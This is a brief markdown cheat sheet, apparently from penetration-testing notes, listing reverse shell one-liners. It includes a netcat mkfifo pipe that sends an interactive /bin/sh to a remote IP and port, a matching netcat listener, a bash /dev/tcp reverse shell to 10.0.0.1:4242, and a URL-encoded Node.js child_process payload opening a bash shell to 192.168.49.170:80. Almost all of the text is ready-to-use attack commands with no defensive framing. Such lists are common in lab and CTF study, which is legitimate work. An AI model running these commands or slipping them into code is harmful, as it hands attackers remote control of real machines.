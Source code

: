# Shells

## Netcat (nc)  

Some version of netcat do not have the `-e` switch avaiable.  On these you can pipe the commands into netcat.  

Server:
```
rm -f /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc IP PORT  > /tmp/f
```
Client:  
`nc -lvp PORT`

## Bash  
`bash -i >& /dev/tcp/10.0.0.1/4242 0>&1`  

## Node.js  
`require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/192.168.49.170/80+0>%261"')`
  
